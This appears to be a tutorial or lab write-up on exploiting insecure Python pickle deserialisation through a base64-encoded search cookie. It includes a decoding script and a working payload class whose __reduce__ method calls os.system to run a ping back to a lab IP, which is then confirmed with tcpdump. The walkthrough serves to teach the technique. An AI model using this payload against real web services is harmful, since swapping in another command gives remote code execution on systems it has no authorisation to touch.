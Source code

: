 # Deserialising Python

## Overview
When enumerating web applications, sometimes you can run into objects that are being serialised by a python service that is running in the back end, this is sometimes related to when the web service is running using flask or werkzeug but can be related to many types of web service.

## Identifying Serialised Data
I noticed that when I was enumerating the search bar of a webpage for vulnerabilities that it was returning a cookie with a base64 value:
    search_cookie="gASVDgAAAAAAAACMCnNlYXJjaFRlc3SULg=="; Path=/

When I decoded this from base64, it gave me a value of "............searchTest.." where searchTest was the string that I entered to test the processing of the search bar. 

This excess "...." indicates the use of python's pickle module to serialize objects. I wrote a python script to test this.

    import pickle
    import base64

    serial = b"gASVDgAAAAAAAACMCnNlYXJjaFRlc3SULg=="
    decoded_serial = base64.b64decode(serial)
    deserialised = pickle.loads(decoded_serial)
    print(deserialised)

This gave me an output of "searchTest" when run- exactly my output. 

Now that we know that the data from this input box is being processed by the backend- let's reverse this process so that we can craft a cookie that will result in trying to execute some code. How can we do this? Let's work backwards:

What did we do to decode the serialized data:
1. Decoded from base64
2. Deserialised the object with pickle
3. Viewed the object that had been input as data 

Therefore, we need to do the opposite- with a few extra steps to encapsulate the command we choose.

We need to:
1. Choose a command to run
2. Create a system call from python containing this command 
2. Encapsulate this in a python object that we can serialise, with pickle 
3. Serialise it
4. Convert the serialised value to base64- to match the format of the original cookie 

I did this using the following code:

    import pickle
    import base64
    import os

    class command:
      def __reduce__(self):
        command = ('ping -c 10 10.11.18.40')
        return os.system, (command,)

    value = command()
    serialised = pickle.dumps(value)
    cookie = base64.b64encode(serialised)
    print(cookie)

This follows the logic outlined above and returns us: b'gASVMQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjBZwaW5nIC1jIDEwIDEwLjExLjE4LjQwlIWUUpQu'

We can validate that this method is correct by running it through our deserialise python script. This does indeed end up running the "ping" command the local machine.

We can then change this cookie and check for an icmp from the target machine using tcpdump

sudo tcpdump -i tun0 icmp

